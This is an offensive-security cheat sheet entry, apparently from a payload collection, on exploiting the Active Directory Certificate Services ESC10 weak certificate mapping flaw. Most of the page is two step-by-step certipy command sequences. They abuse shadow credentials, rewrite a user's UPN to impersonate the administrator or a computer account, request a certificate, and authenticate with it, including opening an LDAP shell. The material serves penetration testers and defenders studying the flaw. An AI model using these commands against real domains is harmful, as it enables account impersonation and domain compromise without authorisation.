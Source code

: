 # Active Directory - Certificate ESC10

## ESC10 – Weak Certificate Mapping - StrongCertificateBindingEnforcement

**Requirements**:

* `StrongCertificateBindingEnforcement` = 0.

**Exploit**:

```ps1
# get user hash with shadowcredentials
certipy shadow auto -username "user@domain.local" -p "password" -account admin -dc-ip 10.10.10.10

# change user UPN
certipy account update -username "user@domain.local" -p "password" -user admin -upn administrator -dc-ip 10.10.10.10

# ask for certificate
certipy req -username "admin@domain.local" -hashes "hashes" -target "10.10.10.10" -ca 'DOMAIN-CA' -template 'user' -debug

# Rollback upn modification
certipy account update -username "user@domain.local" -p "password" -user admin -upn admin -dc-ip 10.10.10.10

# Connect with the certificate
certipy auth -pfx 'administrator.pfx' -domain "domain.local" -dc-ip 10.10.10.10
```

## ESC10 – Weak Certificate Mapping - CertificateMappingMethods

**Requirements**:

* `CertificateMappingMethods` = 0x04.

**Exploit**:

```ps1
certipy shadow auto -username "user@domain.local" -p "password" -account admin -dc-ip 10.10.10.10

# change user UPN to computer$
certipy account update -username "user@domain.local" -p "password" -user admin -upn 'computer$@domain.local' -dc-ip 10.10.10.10

# ask for certificate
certipy req -username "admin@domain.local" -hashes "3b60abbc25770511334b3829866b08f1" -target "10.10.10.10" -ca 'DOMAIN-CA' -template 'user' -debug

# Rollback upn modification
certipy account update -username "user@domain.local" -p "password" -user admin -upn admin -dc-ip 10.10.10.10

# Connect via schannel with the certificate 
certipy auth -pfx 'computer.pfx' -domain "domain.local" -dc-ip 10.10.10.10 -ldap-shell
```

## References

* [GOAD - part 14 - ADCS 5/7/9/10/11/13/14/15 - Mayfly - March 10, 2025](https://mayfly277.github.io/posts/ADCS-part14/)
